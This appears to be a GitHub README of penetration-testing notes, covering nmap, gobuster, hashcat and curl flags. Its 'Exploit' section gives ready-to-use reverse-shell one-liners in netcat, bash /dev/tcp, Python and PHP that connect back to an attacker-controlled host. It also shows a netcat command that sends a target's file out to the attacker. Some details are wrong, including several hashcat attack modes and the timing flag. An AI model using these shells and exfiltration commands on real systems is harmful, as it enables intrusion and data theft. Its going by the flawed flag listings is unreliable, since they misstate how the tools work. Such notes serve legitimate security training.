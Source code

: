 # Penetration Testing Basics

## Reconnaissance

### Active Reconnaissance with Nmap

Nmap (Network Mapper) is a powerful tool used to discover hosts and services on a computer network. It is commonly used during penetration testing for port scanning, service detection, and operating system identification.

#### Common Nmap Options:
- `-sS`: Performs a stealthy SYN scan.
- `-sU`: Performs aUDP scan.
- `-sV`: Detects service versions.
- `-O`: Detects the operating system.
- `-A`: Enables OS detection, version detection, script scanning, and traceroute.
- `-T2`: Sets a "polite" timing template to reduce network congestion or detection.
- `-p-`: Scans all 65,535 TCP ports.
- `target_ip`: Replace this with the IP address of your target.

#### Full Nmap Command:
```bash
sudo nmap -sS -sV --script=default,vuln -p- -T5 <ip target_ip>
```

### Gobuster Command
DirBuster is a powerful tool for brute-forcing directories and file names on a web server to enumerate hidden resources
```bash
gobuster dir -u http://example.com -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
In Kali there is a GUI version called DirBuster
![image](https://github.com/user-attachments/assets/cbd21222-0f45-47da-bc48-99025523a4c5)


#### Hashcat Usage Guide

Hashcat is a powerful password cracking tool that supports multiple hash algorithms and attack modes. This guide covers the essential options and their explanations to help you get started.

#### Basic Syntax

```bash
hashcat -m <hash_mode> -a <attack_mode> <hash_file> <wordlist>
```
#### Hashcat Attack Modes:

- `-a 0`: **Straight** (Dictionary attack)  
  Tries each word in the wordlist.  
  Example: `hashcat -m 0 -a 0 hash.txt rockyou.txt`

- `-a 1`: **Combination**  
  Combines two wordlists.  
  Example: `hashcat -m 0 -a 1 hash.txt wordlist1.txt wordlist2.txt`

- `-a 2`: **Mask**  
  Generates passwords based on a mask pattern.  
  Example: `hashcat -m 0 -a 2 hash.txt ?l?l?d?d`

- `-a 3`: **Brute-force**  
  Tries all combinations of a given character set.  
  Example: `hashcat -m 0 -a 3 hash.txt ?a?a?a?a`

- `-a 4`: **Toggle-case**  
  Tries passwords with different case variations.  
  Example: `hashcat -m 0 -a 4 hash.txt`

- `-a 5`: **Hybrid Mask + Wordlist**  
  Combines a wordlist and a mask.  
  Example: `hashcat -m 0 -a 5 hash.txt wordlist.txt ?d?d`

#### Common Hashcat Hash Modes:

- `-m 0`: MD5  
- `-m 100`: SHA1  
- `-m 1400`: SHA256  
- `-m 1700`: SHA512  
- `-m 3000`: LM  


## Useful Curl Options

### Basic Usage
#### Silent Mode and Debugging
- `-s`: Silent mode. Suppresses the progress meter and error messages.
- `-v`: Verbose mode. Provides detailed information about the request and response.

#### Proxy Support
- `-x <proxy>`: Specifies a proxy to use for the request. Example: `-x http://proxy.example.com:8080`.

#### Custom Headers and Data
- `-H <header>`: Adds a custom header to the request. Example: `-H "Authorization: Bearer <token>"`.
- `-d <data>`: Sends data in a POST request. Example: `-d "param=value"`.

### Adding Cookies
- `-b <data|filename>`: Sends cookies with the request. Example:
  - Inline cookies: `-b "name=value; name2=value2"`
  - From a file: `-b cookies.txt`
- `-c <filename>`: Saves cookies to a file. Example: `-c cookies.txt`.


#### HTTP Method Specification
- `-X <method>`: Specifies the HTTP method to use. Example: `-X POST`.

#### Output Handling
- `-o <file>`: Saves output to a file instead of standard output. Example: `-o response.txt`.
- `-O`: Saves the file with the same name as the remote file.

#### SSL/TLS Options
- `-k`: Ignores SSL certificate errors.

#### Redirects
- `-L`: Follows redirects automatically.

#### Authentication
- `-u <user:password>`: Supplies credentials for basic authentication.

## Exploit

#### Useful commands:

- `cat /etc/os-release `: **OS version**
- `script /dev/null -c /bin/bash`: **Get a bash shell**
- `sudo -l`: **List our commands you can run as root**


### Reverse Shell Basics

#### Listener Setup

On your host machine, start a listener using Netcat:
```bash
nc -lvnp 9999
```

---

## Common Reverse Shell Commands

#### 1. Using Netcat
```bash
nc <your_host_ip> 9999 -e /bin/bash
```

**Alternative (If `-e` is disabled):**
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <your_host_ip> 9999 > /tmp/f
```

---

#### 2. Using Bash
```bash
bash -i >& /dev/tcp/<your_host_ip>/9999 0>&1
```

---

#### 3. Using Python
**For Python 3:**
```bash
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<your_host_ip>",9999)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"])'
```

---

#### 4. Using PHP
```bash
php -r '$sock=fsockopen("<your_host_ip>",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```



## Hands on Objectives

#### Useful commands:
using scp to transfer files
- `scp <file> character@10.10.14.60:/path/to/destination/`
- Local Machine: `nc -lvnp <PORT> >` Target Machine: `cat '<filename>' | nc <YOURIPADDRESS> <PORT>`
